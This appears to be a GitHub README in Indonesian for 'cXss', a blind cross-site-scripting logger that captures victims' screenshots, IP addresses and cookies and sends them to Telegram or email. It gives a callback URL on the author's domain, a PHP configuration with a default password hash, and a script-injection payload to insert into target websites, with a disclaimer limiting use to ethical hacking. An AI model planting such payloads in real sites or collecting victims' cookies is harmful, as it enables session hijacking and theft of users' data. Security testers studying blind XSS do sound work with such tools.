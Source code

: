 # cXss
Capture XSS

## ScreenShot
![Alt text](inc/1.png "screenshot")
![Alt text](inc/2.png "screenshot")

#### Created By : Versailles ~ Sec7or Team

cXss adalah Capture XSS / CansXSS :p digunakan untuk Testing Blind XSS.

*Untuk yang ingin membuat logger XSS sendiri seperti xsshunter.*

### FEATURES
	- Mengirim Notifikasi ke Telegram dan Email
	- cXss men-capture beberapa data korban yg Ter-Trigger XSS diantara nya :
		- Screenshoot
		- Victim IP address
		- Victim Cookies
		- dll

### INSTALLATION
git clone / upload repo ini di web server anda

#### Edit File index.js , ganti cans.evils.in dengan domain anda
```
    var url = "http://cans.evils.in/callback";
```

#### Edit file inc/conf.php dengan konfigurasi anda
```
<?php
include("function.php");

// Configurations

// jsonstore.io
$db = ""; 

// Password For Login
$pass = "a820fa8139a40b4590608dd738348d0a"; // default md5 pass : cans , Empty this field if not used

// Set Your Telegram Bot Token & Telegram Recipient ID
$token = ""; // Empty this field if not used
$idRecipient = ""; // Empty this field if not used

// Set Your Email Address
$email = ""; // Empty this field if not used

// -----------------------------------------------------------------------------------------------
$warna = rand_color(); // you can set rand_color() OR which one "primary","success","danger","warning","secondary"

```

### HOW TO USE ?
Sisipkan salah satu payload xss di web target .

```
"><script src=http://yourdomain></script>
```
#### To See Result :
**yourdmain.com/cans/**

## PERHATIAN !
*Hanya untuk pembelajaran dan kegiatan Ethical Of Hacking, Hal negatif yang anda perbuat dengan tool ini diluar tanggung jawab author*

Demo : **http://cans.evils.in**

Donation Paypal : vsec48@gmail.com :v

Thanks :) I miss You Cans .. :)